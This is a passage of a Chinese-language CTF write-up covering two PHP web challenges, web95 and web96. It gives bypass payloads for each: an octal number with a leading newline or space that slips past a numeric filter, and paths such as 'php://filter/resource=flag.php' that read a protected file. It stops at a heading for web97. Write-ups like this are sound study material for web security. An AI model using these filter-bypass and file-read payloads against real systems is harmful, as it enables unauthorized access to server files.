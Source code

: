 ```php
include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==4476){
        die("no no no!");
    }
    if(preg_match("/[a-z]|\./i", $num)){
        die("no no no!!");
    }
    if(!strpos($num, "0")){
        die("no no no!!!");
    }
    if(intval($num,0)===4476){
        echo $flag;
    }
}
```

多过滤个点

payload

```
num= 010574
num=%0a010574
num=%20010574
```

## web96(路径替换)

```php
highlight_file(__FILE__);

if(isset($_GET['u'])){
    if($_GET['u']=='flag.php'){
        die("no no no");
    }else{
        highlight_file($_GET['u']);
    }
}
```

路径替换

payload

```
./flag.php
/var/www/html/flag.php
php://filter/resource=flag.php
```

## web97(md5强类型绕过)
